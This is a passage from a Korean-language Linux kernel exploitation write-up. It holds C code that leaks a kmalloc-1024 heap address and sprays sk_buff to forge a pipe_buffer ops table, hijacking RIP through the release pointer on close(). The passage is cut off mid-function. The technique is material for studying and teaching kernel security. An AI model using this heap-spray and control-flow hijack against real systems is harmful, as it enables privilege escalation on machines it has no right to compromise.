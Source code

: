 ```c
        exit(0);
    }
    leaked_heap_addr = *(uint64_t*)(&message->mtext[4096 - 48]);
    printf("leaked heap addr (kmalloc-1024): 0x%llx\n", leaked_heap_addr);
    printf("%llx\n", *(uint64_t*)(&message->mtext[4096 - 48 + 8]));
    return leaked_heap_addr;
}

/* ... */

    sk_buff_clean();
    sk_buff_spray2(leaked_heap_addr);

    uint64_t leaked_heap_addr_kmalloc_1024 = leak_heap_addr2();

    if ((leaked_heap_addr_kmalloc_1024 & 0xffff000000000000) != 0xffff000000000000)
    {
        printf("heap leak error\n");
        goto err;
    }
```

이제 얻은 `kmalloc-1024` 주소를 통해 RIP 를 변조시켜보자.

전략은 다음과 같다. 

먼저 sk_buff 를 다시 스프레이 해서 `pipe_buffer` 의 `ops` 포인터를 기존에 leak 했던 `kmalloc-1024` 포인터로 바꾼다. 

우리가 leak 한 포인터는 corrupted 된 청크에서 1024 바이트 떨어진 곳이기 때문에 릭한 포인터 - 1024 를 하면 정확히 타겟 포인터를 만들 수 있다. 

그 뒤 `ops` 를 조작했던 주소의 `release` 포인터를 0x4141414141414141로 바꾼 뒤, `close()` 를 통해 pipe fd 를 닫아주면, `pipe_buffer` 내의 `release` 가 트리거 되면서 RIP 를 0x4141414141414141 로 조작할 수 있을것이다. 

```c
void rip_control(uint64_t kernel_base_addr, uint64_t fake_chunk_address)
{
    uint64_t sk_buff[1024] = {0,};
    struct pipe_buffer* fake_pipe_buffer = (struct pipe_buffer*)sk_buff;
    struct pipe_buf_operations* fake_pipe_ops = (struct pipe_buf_operations*)&sk_buff[8];
    int i, j;
    /* make fake pipe buffer */
    memset(sk_buff, 0x43, sizeof(sk_buff));
    fake_pipe_buffer->ops = fake_chunk_address + 64;
    fake_pipe_ops->release = 0x4141414141414141;

    printf("rip_control: spray sk_buff\n");
    for (i = 0; i < SPRAY_SOCKET_FDCNT; i++)
    {
        for(j = 0; j < SPRAY_COUNT_PER_SOCKET_FD; j++)
        {
            if (write(socket_fd[i][0], (void*)sk_buff, SK_BUFF_SPRAY_SIZE) < 0)
            {
                perror("rip_control: failed write buffer");
                exit(0);
            }
        }
    }

    char dummy;
    scanf("%c", &dummy);
    printf("rip_control: trigger pipe_ops->release\n");
    for ( i = 0; i < SPRAY_PIPE_FDCNT; i++)
    {
        if (close(pipe_fds[i][0]) < 0)
        {
            perror("rip_control: failed close pipe_fd\n");
```